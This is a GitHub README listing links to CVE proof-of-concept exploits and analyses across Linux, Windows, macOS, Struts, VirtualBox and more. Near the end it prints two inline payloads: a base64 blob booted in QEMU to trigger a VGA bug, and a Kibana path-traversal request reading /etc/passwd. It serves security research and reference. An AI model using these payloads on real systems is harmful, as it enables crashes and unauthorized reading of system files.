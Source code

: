 # CVEs and PoCs Resources

## Genereal

Some CVEs PoCs repos on github or internet.

* First, see: [Awesome CVE PoC](https://github.com/qazbnm456/awesome-cve-poc) by [qazbnm456](https://github.com/qazbnm456).
* To search (without PoCs): [cve-search](https://github.com/cve-search/cve-search) you can use it off-line too.
* This is a nice Wrapper:[vFeed](https://github.com/toolswatch/vFeed).
* Automated Generation of Proofs of Vulnerability with [S2E](https://github.com/S2E/docs/blob/master/src/Tutorials/pov.rst)
* [SecurityExploits](https://github.com/Semmle/SecurityExploits): This repository contains proof-of-concept exploits developed by the Semmle Security Research Team. We always disclose security vulnerabilities responsibly, so this repository only contains exploits for vulnerabilities which have already been fixed and publicly disclosed.

## Linux

* Spectre : [CVE-2017-5753,CVE-2017-5715](https://gist.github.com/Badel2/ba8826e6607295e6f26c5ed098d98d27)
* Dirty Cow: [CVE-2016-5195](https://github.com/scumjr/dirtycow-vdso) [Others](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
* "Root" via dirtyc0w privilege escalation [exploit](https://gist.github.com/Arinerron/0e99d69d70a778ca13a0087fa6fdfd80)
* Huge Dirty Cow: [CVE-2017-1000405](https://github.com/bindecy/HugeDirtyCowPOC)
* SMEP,SMAP and Chrome Sandbox: [CVE-2017-5123](https://salls.github.io/Linux-Kernel-CVE-2017-5123/)
* SambaCry: [CVE-2017-7494](https://securelist.com/sambacry-is-coming/78674/)
* The Stack Clash: [CVE-2017-1000364](https://blog.qualys.com/securitylabs/2017/06/19/the-stack-clash)
* GoAhead web server: [CVE-2017-17562](https://www.elttam.com.au/blog/goahead/)
* [New bypass and protection techniques for ASLR on Linux](http://blog.ptsecurity.com/2018/02/new-bypass-and-protection-techniques.html)
* Linux ASLR integer overflow: Reducing stack entropy by four: [CVE-2015-1593](http://hmarco.org/bugs/linux-ASLR-integer-overflow.html)
* Ubuntu CVES: [CVE-2017-16995](https://github.com/Spacial/csirt/blob/master/PoCs/ubuntu_%20CVE-2017-16995.c), [netfilter](https://github.com/Spacial/csirt/blob/master/PoCs/ubuntu_netfilter.c), [CVE-2013-1763](https://github.com/Spacial/csirt/blob/master/PoCs/ubuntu_%20CVE-2013-1763.c)
* Linux Kernel Version 4.14 - 4.4 (Ubuntu && Debian): [CVE-2017-16995](https://github.com/iBearcat/CVE-2017-16995)
* Meltdown/Spectre: [Understanding Spectre and Meltdown Vulnerability](https://miuv.blog/2018/03/20/understanding-spectre-and-meltdown-vulnerability-part-2/)
* Linux Kernel TCP implementation vulnerable to Denial of Service: [CVE-2018-5390](https://www.kb.cert.org/vuls/id/962459)
* Linux Kernel Vulnerability Can Lead to Privilege Escalation: Analyzing [CVE-2017-1000112](https://securingtomorrow.mcafee.com/mcafee-labs/linux-kernel-vulnerability-can-lead-to-privilege-escalation-analyzing-cve-2017-1000112/). repo: [kernel-exploits](https://github.com/xairy/kernel-exploits): A bunch of proof-of-concept exploits for the Linux kernel.
* Malicious Command Execution via bash-completion: [CVE-2018-7738](https://blog.grimm-co.com/post/malicious-command-execution-via-bash-completion-cve-2018-7738/)
* An integer overflow flaw was found in the Linux kernel's create_elf_tables() function: [CVE-2018-14634](https://access.redhat.com/security/cve/cve-2018-14634)
* [This repo records all the vulnerabilities of linux software I have reproduced in my local workspace](https://github.com/VulnReproduction/LinuxFlaw)
* [linux-kernel-exploitation](https://github.com/xairy/linux-kernel-exploitation): A bunch of links related to Linux kernel exploitation

## Solaris

* Kernel Level Privilege Escalation in Oracle Solaris: [CVE-2018-2892](https://www.trustwave.com/Resources/SpiderLabs-Blog/CVE-2018-2892---Kernel-Level-Privilege-Escalation-in-Oracle-Solaris/)

## Windows

* Office: [CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
* WebDAV: [CVE-2017-11882](https://github.com/embedi/CVE-2017-11882)
* WSDL Parser: [CVE-2017-8759](https://github.com/Voulnet/CVE-2017-8759-Exploit-sample)
  * MS .NET: [CVE-2017-8759](https://github.com/bhdresh/CVE-2017-8759)
  * WPAD/PAC: [aPAColypse now](https://googleprojectzero.blogspot.com.br/2017/12/apacolypse-now-exploiting-windows-10-in_18.html)
  * Meltdown/Spectre:[CVE-2017-5754,CVE-2017-5715](https://github.com/ionescu007/SpecuCheck)
  * Packager OLE: [CVE-2018-0802](https://github.com/rxwx/CVE-2018-0802)
  * Integer Overflow: [Integer Overflow](https://github.com/k0keoyo/Dark_Composition_case_study_Integer_Overflow)
  * Hardcore corruption of my execve() vulnerability in WSL: [CVE-2018-0743](https://github.com/saaramar/execve_exploit)
  * Privilege Escalation Vulnerability in Windows Standard Collector Service: [CVE-2018-0952](https://www.atredis.com/blog/cve-2018-0952-privilege-escalation-vulnerability-in-windows-standard-collector-service)
  * [Exploit Published for Windows Task Scheduler Zero-Day](https://www.securityweek.com/exploit-published-windows-task-scheduler-zero-day). [poc](https://github.com/SandboxEscaper/randomrepo)
  * [PowerPool](https://www.welivesecurity.com/2018/09/05/powerpool-malware-exploits-zero-day-vulnerability/) malware exploits ALPC LPE zero-day vulnerability
  * You can't contain me! :: Analyzing and Exploiting an Elevation of Privilege Vulnerability in Docker for Windows: [CVE-2018-15514](https://srcincite.io/blog/2018/08/31/you-cant-contain-me-analyzing-and-exploiting-an-elevation-of-privilege-in-docker-for-windows.html)
* [Invoke-WMILM](https://github.com/Cybereason/Invoke-WMILM): This is a PoC script for various methods to acheive authenticated remote code execution via WMI, without (at least directly) using the Win32_Process class. The type of technique is determined by the "Type" parameter.
* Use-after-free (UAF) vulnerability: [CVE-2018-8373](https://blog.trendmicro.com/trendlabs-security-intelligence/new-cve-2018-8373-exploit-spotted/)
* Microsoft Edge RCE: [CVE-2018-8495](https://leucosite.com/Microsoft-Edge-RCE/)
* Device Guard/CLM bypass using MSFT_ScriptResource: [CVE-2018–8212](https://posts.specterops.io/cve-2018-8212-device-guard-clm-bypass-using-msft-scriptresource-b6cc2318e885)
* [A PoC function to corrupt the g_amsiContext global variable in clr.dll in .NET Framework Early Access build 3694](https://gist.github.com/mattifestation/ef0132ba4ae3cc136914da32a88106b9)
* [windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits): windows-kernel-exploits Windows平台提权漏洞集合

## macOS/iOS

* RootPiper:  [Demo/PoC](https://github.com/Shmoopi/RootPipe-Demo)  [Tester](https://github.com/sideeffect42/RootPipeTester)
  * [Mac Privacy: Sandboxed Mac apps can record your screen at any time without you knowing](https://github.com/KrauseFx/krausefx.com/blob/master/_posts/2018-02-10-mac-privacy-sandboxed-mac-apps-can-take-screenshots.md) by [Felix Krause](https://github.com/KrauseFx)
* [ROPLevel6 Writeup](https://github.com/shmoo419/ExploitChallengeWriteups/blob/master/ROPLevel6/Writeup.md)
* Escaping the sandbox by misleading bluetoothd:[CVE-2018-4087](https://blog.zimperium.com/cve-2018-4087-poc-escaping-sandbox-misleading-bluetoothd)
* [Reexport symbols for Mach-O and ELF.](https://github.com/xerub/reexport)
* [Jailbreak for iOS 10.x 64bit devices without KTRR](https://github.com/tihmstar/doubleH3lix)
* MS Office 2016 for Mac Privilege Escalation via a Legacy Package: [CVE-2018–8412](https://medium.com/0xcc/cve-2018-8412-ms-office-2016-for-mac-privilege-escalation-via-a-legacy-package-7fccdbf71d9b)
* blanket: Mach port replacement vulnerability in launchd on iOS 11.2.6 leading to sandbox escape, privilege escalation, and codesigning bypass ([CVE-2018-4280](https://github.com/bazad/blanket))
* brokentooth: POC for [CVE-2018-4327](https://github.com/omerporze/brokentooth)
* Kernel RCE caused by buffer overflow in Apple's ICMP packet-handling code: [CVE-2018-4407](https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407)
* [Offensive testing to make Dropbox (and the world) a safer place](https://blogs.dropbox.com/tech/2018/11/offensive-testing-to-make-dropbox-and-the-world-a-safer-place/)
* [WebKit-RegEx-Exploit](https://github.com/LinusHenze/WebKit-RegEx-Exploit): Safari 12.1.1

## Android

* [Please Stop Naming Vulnerabilities](https://pleasestopnamingvulnerabilities.com): Exploring 6 Previously Unknown Remote Kernel Bugs Affecting Android Phones

## Java

* Spring Data Commons: [CVE-2018-1273](https://gist.github.com/matthiaskaiser/bfb274222c009b3570ab26436dc8799e)

## Apache Struts

* How to find 5 RCEs in Apache Struts with Semmle QL: [CVE-2018-11776](https://lgtm.com/blog/apache_struts_CVE-2018-11776)
* Semmle Discovers Critical Remote Code Execution Vulnerability in Apache Struts: [CVE-2018-11776](https://semmle.com/news/apache-struts-CVE-2018-11776), [docker Poc](https://github.com/jas502n/St2-057), [other poc](https://github.com/mazen160/struts-pwn_CVE-2018-11776)
* [Apache Struts Vulnerability POC Code Found on GitHub](https://news.hitb.org/content/apache-struts-vulnerability-poc-code-found-github)
* [struts-pwn](https://github.com/mazen160/struts-pwn_CVE-2018-11776): An exploit for Apache Struts CVE-2018-11776

## BMC

* HPE iLO4: [CVE-2017-12542](https://github.com/airbus-seclab/ilo4_toolbox/blob/master/README.rst)

## x86

* Spectre: [CVE-2017-5753,CVE-2017-5715](https://spectreattack.com/)
* Meltdown: [CVE-2017-5754](https://meltdownattack.com/)
* Cyberus: [Meltdown](http://blog.cyberus-technology.de/posts/2018-01-03-meltdown.html)
* L1 Terminal Fault: [CVE-2018-3615/CVE-2018-3620/CVE-2018-3646/INTEL-SA-00161](https://software.intel.com/security-software-guidance/software-guidance/l1-terminal-fault)

## ARM

* [ARM exploitation for IoT – Episode 3](https://quequero.org/2017/11/arm-exploitation-iot-episode-3/)
* [Multiple vulnerabilities found in Wireless IP Camera](https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html#backdoor-account): CVE-2017-8224, CVE-2017-8222, CVE-2017-8225, CVE-2017-8223, CVE-2017-8221
* [DoubleDoor](https://blog.newskysecurity.com/doubledoor-iot-botnet-bypasses-firewall-as-well-as-modem-security-using-two-backdoor-exploits-88457627306d), IoT Botnet bypasses firewall as well as modem security using two backdoor exploits: CVE-2015–7755 and CVE-2016–10401
* [i.MX7 M4 Atomic Cache Bug](https://rschaefertech.wordpress.com/2018/02/17/imx7-hardware-bug/)

## VirtualBox

* From Compiler Optimization to Code Execution - VirtualBox VM Escape: [CVE-2018-2844](https://www.voidsecurity.in/2018/08/from-compiler-optimization-to-code.html). [poc](https://github.com/renorobert/virtualbox-cve-2018-2844/)
* [VirtualBox 3D PoCs & exploits](https://github.com/niklasb/3dpwn)
* [Multiple Vulnerabilities on Kerui Endoscope Camera](https://utkusen.com/blog/multiple-vulnerabilities-on-kerui-endoscope-camera.html)
* [virtualbox_e1000_0day](https://github.com/MorteNoir1/virtualbox_e1000_0day):  VirtualBox E1000 Guest-to-Host Escape

## Others

* PHPMailer: [CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033)
* Apache Tomcat: [CVE-2017-12617](https://github.com/cyberheartmi9/CVE-2017-12617)
* Palo Alto Networks firewalls: Palo Alto Networks firewalls remote root code execution [CVE-2017-15944](http://seclists.org/fulldisclosure/2017/Dec/38)
* [https://fail0verflow.com/blog/2017/ps4-namedobj-exploit/](https://fail0verflow.com/blog/2017/ps4-namedobj-exploit/) and  [A fully implemented kernel exploit for the PS4 on 4.05FW](https://github.com/Cryptogenic/PS4-4.05-Kernel-Exploit)
* [HOW TO HACK A TURNED-OFF COMPUTER, OR RUNNING UNSIGNED CODE IN INTEL ME](https://www.blackhat.com/docs/eu-17/materials/eu-17-Goryachy-How-To-Hack-A-Turned-Off-Computer-Or-Running-Unsigned-Code-In-Intel-Management-Engine-wp.pdf) (CVE-2017-5705, CVE-2017-5706, CVE-2017-5707), [github](https://github.com/ptresearch/unME11)
* Nintendo Switch JailBreak PoC:[CVE-2016-4657](https://github.com/iDaN5x/Switcheroo/wiki/Article)
* [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
* [Geovision Inc. IP Camera](https://github.com/mcw0/PoC/blob/master/Geovision%20IP%20Camera%20Multiple%20Remote%20Command%20Execution%20-%20Multiple%20Stack%20Overflow%20-%20Double%20free%20-%20Unauthorized%20Access.txt), with a lot others in this [repo](https://github.com/mcw0/PoC)
* [Zero-day vulnerability in Telegram](https://securelist.com/zero-day-vulnerability-in-telegram/83800/)
* PHP PrestaShop 1.6.x Privilege Escalation: [CVE-2018-13784](https://www.ambionics.io/blog/prestashop-privilege-escalation)
* [Bug or Backdoor](https://0x09al.github.io/security/ispconfig/exploit/vulnerability/2018/08/20/bug-or-backdoor-ispconfig-rce.html): Exploiting a Remote Code Execution in ISPConfig by 0x09AL Security blog.
* SSH Exploit written in Python for CVE-2018-15473 with threading and export formats: [CVE-2018-15473](https://github.com/Rhynorater/CVE-2018-15473-Exploit), [analysis](https://sekurak.pl/openssh-users-enumeration-cve-2018-15473/)
* [RICOH MP 2001 Printer Cross Site Scripting ≈ Packet Storm](https://packetstormsecurity.com/files/149443/RICOH-MP-2001-Printer-Cross-Site-Scripting.html), [code](https://dl.packetstormsecurity.net/1809-exploits/richomp2001-xss.txt), [Cross-Site Scripting](https://www.exploit-db.com/exploits/45460/)
* Oracle WebLogic WLS-WSAT Remote Code Execution Exploit: [CVE-2017-10271](https://github.com/kkirsche/CVE-2017-10271)
* WebLogic Exploit: [CVE-2017-10271](https://github.com/c0mmand3rOpSec/CVE-2017-10271)
* Talos Vulnerability Deep Dive: Sophos HitmanPro.Alert vulnerability -  [CVE-2018-3971](https://blog.talosintelligence.com/2018/11/TALOS-2018-0636.html)
* [phpLdapAdmin multiple vulns](https://github.com/opsxcq/exploit-phpldapadmin-remote-dump): phpldapadmin remote exploit and vulnerable container.
* [JPEG [JAY-peg]](https://github.com/corkami/docs/blob/master/images/jpeg.md), some pocs [JPEG PoCs](https://github.com/corkami/pocs/blob/master/images/jpg/README.md)
* Kubernets: [CVE-2018-1002105](https://github.com/evict/poc_CVE-2018-1002105)
* QEMU: vga: OOB read access during display update: [CVE-2017-13672](https://twitter.com/David3141593/status/903284919803277312),
* Exploiting LaTeX with [CVE-2018-17407](http://nickroessler.com/latex-cve-2018-17407/)
* GitHub Desktop RCE (OSX)[H1-702 2018](https://pwning.re/2018/12/04/github-desktop-rce/), [poc](https://github.com/0xACB/github-desktop-poc/)
* [unprivileged users with UID > INT_MAX can successfully execute any systemctl command (#74)](https://gitlab.freedesktop.org/polkit/polkit/issues/74)
* Authenticated RCE in [Polycom Trio 8800](http://unkl4b.github.io/Authenticated-RCE-in-Polycom-Trio-8800-pt-1/), pt.1
* Tenable Research Advisory: Zoom Unauthorized Command Execution - [CVE-2018-15715](https://www.tenable.com/blog/tenable-research-advisory-zoom-unauthorized-command-execution-cve-2018-15715)
* [Crash Chrome 70 with the SQLite Magellan bug](https://worthdoingbadly.com/sqlitebug/) [code](https://github.com/zhuowei/worthdoingbadly.com/blob/master/_posts/2018-12-14-sqlitebug.html)

'''bash
$ echo H4sICH0mqFkAA3BvYwDbweS/W8LxrMCuK8wbZN85bWh494VhFIwUELoKAIJvFIwAAgAA | base64 -d | gunzip > a && qemu-system-i386 -vga cirrus a
'''

*  Elasticsearch Kibana Console [CVE-2018-17246](https://twitter.com/IM_23pds/status/1074627634150006784) PoC：

```bash
GET /api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd 
```

## Additions

Please, send pull requests for new additions.

 Thanks!
